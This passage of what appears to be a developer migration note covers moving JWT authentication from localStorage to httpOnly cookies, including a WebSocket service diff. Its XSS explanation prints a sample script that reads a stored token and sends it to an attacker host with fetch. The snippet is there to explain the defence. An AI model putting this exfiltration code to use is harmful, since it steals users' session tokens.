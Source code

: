 #### 6. WebSocket Service (websocketService.ts)
**Status**: UPDATED to use cookies

**Changes**:
- Removed `token` private field
- Changed `connect(token: string)` to `connect()` (no parameter)
- Updated Socket.IO config to use `withCredentials: true`
- Updated `scheduleReconnect()` to call `connect()` without token

```typescript
// BEFORE:
connect(token: string): Promise<void> {
  this.socket = io(serverUrl, {
    auth: { token: token },
    transports: ['websocket', 'polling'],
  });
}

// AFTER:
connect(): Promise<void> {
  this.socket = io(serverUrl, {
    withCredentials: true, // ✅ Enable cookies for auth
    transports: ['websocket', 'polling'],
  });
}
```

---

## Security Analysis

### XSS Protection Strategy

**Problem**: Storing JWT in localStorage makes it vulnerable to XSS attacks:
```javascript
// Malicious script can steal token:
const stolen = localStorage.getItem('token');
fetch('https://attacker.com/steal?token=' + stolen);
```

**Solution**: httpOnly cookies are inaccessible to JavaScript:
```javascript
// This returns empty string (httpOnly cookies hidden):
document.cookie; // "csrfToken=abc123" (but NOT accessToken)

// Malicious scripts CANNOT access httpOnly cookies
localStorage.getItem('token'); // null (no longer stored)
```

### Backward Compatibility

**Why keep tokens in response body?**
1. **Tests**: 122 backend integration tests use `Authorization: Bearer <token>` headers
2. **Non-browser clients**: CLI tools, mobile apps, Postman testing
3. **Gradual migration**: Frontend can be updated without breaking backend tests

